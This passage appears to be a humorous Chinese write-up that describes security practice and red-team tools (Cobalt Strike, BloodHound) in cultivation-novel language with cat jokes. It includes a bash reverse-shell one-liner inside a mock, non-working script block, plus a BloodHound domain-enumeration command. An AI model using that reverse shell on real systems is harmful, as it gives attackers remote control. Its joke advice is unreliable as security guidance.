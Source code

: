   1. **影分身术**：重要系统每天用`rsync`备份到九个不同区域，像猫咪在不同纸箱留爪印
      `aws s3 sync / vital_backup_$(date +%Y%m%d)_{1..9}`
  2. **舍身饲虎**：当发现0day漏洞时，把自家加密矿机伪装成蜜罐投喂给黑客
  3. **子午阴阳诀**：开发与运维比照CPU升温曲线撸猫，温度突变时必触发告警
  
  **禅机时刻**：某次服务器被黑后发现黑客IP来自宠物医院WiFi，监控录像显示是橘猫踩键盘触发RCE漏洞（SSH密码：fishfishmeow）
  
  ------
  
  🦁附加猫系SOP：
  
  > - 遇到高级持续威胁（APT）就播放《猫和老鼠》，消耗对方精神力
  > - 机柜后面常备猫薄荷，有助于加速漏洞修复进程
  > - 当安全团队集体离职时，请收养等量狸花猫镇守机房——比WAF有效
  
  ------
  
  愿各位道友在信息安全的世界里，始终像猫主子般优雅从容：七分淡定两分傲娇，还有一分留给凌晨三点的漏洞赏金！ 🐱💻
  
  ------
  
  ## 第九章：资深道修的乾坤戒指
  
  ------
  
  🌌本章暗藏三千大道，阅读时请默念《太上老君说常清静经》谨防走火入魔🌌
  
  ------
  
  ### 9.1 法器谱·天阶仙兵录
  
  #### Cobalt Strike（混元金斗） 
  红队修士的本命法宝，祭出"Aggressor Script"如同降下诛仙剑阵：  
  ```bash
  # 太上敕令·反向Shell符箓
  artifact_register("逆转阴阳", {
      sleep 1; /bin/bash -i >& /dev/tcp/$1/$2 0>&1
  });
  ```
  
  实战时暗合《奇门遁甲》奥义——Beacon节点化为周天星斗，红队宗师的C2服务器便是那紫微垣。曾有道友以Google云炼丹炉作母舰，凭一己之力对抗三百罗汉（IPS设备），终在甲方年度攻防演练中证得大罗金仙果位。
  
  #### BloodHound（六道轮回图）
  
  此器可窥阴阳（域内关系链），破幽冥（权限继承图）。当`SharpHound`符咒祭起，Active Directory的轮转路径宛如《洛书》九宫：
  
  <POWERSHELL>
  
  ```
  # 地煞七十二变的电子籖诗
  Invoke-BloodHound -CollectionMethod All -Domain Contoso
  ```
  
  某甲在内网遨游时惊见CEO账号竟与打印服务修得三世姻缘（GenericAll权限），当即以《天衍四九》法门打通提权秘径。
  
  #### Frida（太乙神针）
  